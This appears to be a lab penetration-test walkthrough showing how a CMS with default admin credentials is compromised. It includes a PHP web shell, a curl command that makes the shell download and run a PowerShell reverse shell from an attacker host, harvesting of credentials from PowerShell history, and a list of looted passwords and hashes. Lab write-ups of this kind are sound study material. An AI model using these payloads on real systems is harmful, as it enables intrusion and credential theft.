 # Exploitation
- Navigate to `http://192.168.209.249:8000/cms/admin.php` to find the login panel for Admin. Use the default credential `admin:admin` to log in as `Administrator`.![[Pasted image 20240219195145.png]]
- Run `echo "<?php echo system(\$_REQUEST['cmd']); ?>" > shell.pHp` to create web shell payload. Then click on `Admin` and then `File Manager` to upload web shell.![[Pasted image 20240219195320.png]]![[Pasted image 20240219195337.png]]![[Pasted image 20240219195359.png]]![[Pasted image 20240219195420.png]]
- Finally, run `curl http://192.168.209.249:8000/cms/media/shell.pHp?cmd=powershell.exe%20-nop%20-w%20hidden%20-c%20iex%28iwr%20http%3A%2F%2F192.168.45.195%2FWindows%2Fnishang%2FShells%2FInvoke-ConPtyShell.ps1%20-UseBasicParsing%29%3B%20Invoke-ConPtyShell%20192.168.45.195%20443` to get a shell as local user  `legacy\adrian`.![[Pasted image 20240219195747.png]]
# PrivEsc
- By viewing PowerShell History at `C:\Users\adrian\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` when can find another set of credential `damon:i6yuT6tym@`.
	- `winpeas` will identify that `damon` is part of the local administrator group. Hence, can `rdp` to bypass `UAC`
# Loot
- `damon`: i6yuT6tym@
- `adrian`: e3cea06e2de8d54d43b84d4b5bffb5b0
- `Administrator`: 387aef0561b65e4f3cae0960b0fba2d5
- `maildmz@relia.com`: DPuBT9tGCBrTbR
	- ![[Pasted image 20240219210935.png]]